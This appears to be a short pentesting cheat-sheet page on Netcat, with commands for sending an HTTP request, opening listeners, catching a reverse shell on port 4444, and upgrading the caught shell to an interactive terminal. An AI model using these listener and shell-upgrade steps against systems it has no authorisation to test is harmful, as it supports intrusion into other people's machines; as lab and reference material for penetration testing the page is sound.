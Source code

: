 ```yaml
---
title: Netcat
desc: Manages network connections. Also known as 'nc'.
tags: [ActiveRecon, Linux, PrivEsc, ReverseShell]
alts: [Ncat, Telnet]
website:
render_with_liquid: false
---
```


## HTTP request

```sh
echo -en "GET / HTTP/1.1\nhost: netcat\n\n" | nc 10.10.44.191 80
```

<br />

## Listen

```sh
# HTTP
nc -lvnp 80

# HTTPS
nc -lvnp 443
```

<br />

## Listen (background)

```sh
# Add '&'
nc -lvnp 4444 &
```

<br />

## Listen for Reverse Shell

```sh
nc -lvnp 4444

# ---- Activate -------------------------

# Interactive shell
/bin/bash -i

# Upgrade to fully functional terminal
$ SHELL=/bin/bash script -q /dev/null
# or
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
